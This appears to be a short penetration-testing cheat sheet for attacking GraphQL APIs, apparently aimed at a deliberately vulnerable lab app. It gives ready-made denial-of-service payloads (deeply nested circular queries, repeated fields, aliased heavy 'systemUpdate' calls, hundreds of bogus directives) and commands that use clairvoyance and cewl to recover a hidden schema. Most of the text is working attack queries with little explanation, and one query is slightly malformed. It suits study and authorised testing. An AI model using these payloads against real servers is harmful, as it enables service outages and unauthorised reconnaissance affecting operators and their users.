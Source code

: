 1- look for circular relations in order to DOS the server 
```
query{post{owner{post{owner{post{owner{post{owe}}}}}}}}
```


2- look for repeatable fields 
```
    pastes {
        content
        content
        content
        content
        content
        content
        content
        content
        content
        content
    }
}
```

3- look for heavy query and try to repeat it with aliases
```
query {
    one:systemUpdate
    two:systemUpdate
    three:systemUpdate
    four:systemUpdate
}
```
4- test for directive overloading ( supply any non-existant directive and repeat it)
```
query {
    pastes{title @aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@}}
```

5- in case of disabled introspection, you can use clairvoyance to get the fields and objects, ( you can either use the WL in Seclists or create one using cewl )
--provide clairvoyance with graphql endpoint--
`clairvoyance http://example.com/graphql -w wordlist.txt -o output.json`
provide cewl with the domain and the output 
`cewl http://192.168.1.112:5013 -w wordlist.txt`
